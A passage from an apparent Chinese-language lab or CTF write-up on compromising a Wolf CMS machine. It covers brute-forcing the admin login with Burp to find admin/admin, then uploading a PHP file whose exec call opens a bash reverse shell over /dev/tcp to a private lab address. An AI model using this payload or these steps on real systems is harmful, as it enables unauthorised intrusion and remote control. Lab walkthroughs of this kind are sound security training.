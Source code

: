     发现`robots.txt`以及`readme.md`
    
    访问后`robots.txt` 是空的，`readme.md` 为配置说明
    
- 通过查阅得知后台登陆地址在`/wolfcms/?/admin/login`
    
    ![image.png](image%2012.png)
    
    网路搜索默认账号密码尝试，登陆失败
    
    使用burp进行爆破，指定账号为`admin` ，通过密码字典爆破
    
    爆破成功，账号密码都是 `admin`
    

## 获得初级shell

- 登陆进去后寻找可利用点，找到 `uploadfile`
    
    在 `file`→`Uploadfile`
    
- 上传反弹shell代码文件
    
    ```php
    //getshell.php
    <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.75.131/1234 0>&1'");?>
    ```
    
- 上传后点击文件，回显文件保存在 `/public/getshell.php`
    
    ![image.png](image%2013.png)
    
- 一步一步尝试发现文件在 `http://192.168.75.136/wolfcms/public/getshell.php`
    
    `kali` 开启监听
    